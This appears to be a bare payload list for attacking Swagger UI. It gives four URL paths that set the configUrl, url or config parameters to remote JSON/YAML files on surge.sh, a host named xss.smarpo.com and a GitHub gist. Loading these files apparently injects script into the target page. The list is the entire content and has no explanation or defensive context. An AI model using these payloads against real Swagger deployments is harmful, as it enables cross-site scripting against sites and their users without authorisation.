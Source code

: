 # swagger

* /index.html?configUrl=https://jumpy-floor.surge.sh/test.json

* /index.html?url=https://jumpy-floor.surge.sh/test.yaml

* /index.html?configUrl=https://xss.smarpo.com/test.json&url=https://jumpy-floor.surge.sh/test.yaml

* /docs/index.html?config=https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json
